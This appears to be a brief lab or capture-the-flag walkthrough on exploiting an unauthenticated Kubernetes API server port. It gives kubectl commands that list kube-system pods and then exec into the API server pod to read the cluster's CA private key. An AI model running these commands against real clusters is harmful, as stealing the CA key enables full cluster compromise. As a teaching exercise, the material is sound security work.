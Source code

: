 ## Insecure Port

1. A couple of ways to exploit this, the easiest is 
  - `kubectl -shttp://[APISERV]:8080 get po -n kube-system`
2. The goal is to get the CA private key from the cluster so there's a variety of ways of achieving that. Easiest is to just cat it out from the API server pod which will always have that file mounted.
3. `kubectl -shttp://[APISERV]:8080 -n kube-system exec [APISERVERPOD] cat /etc/kubernetes/pki/ca.key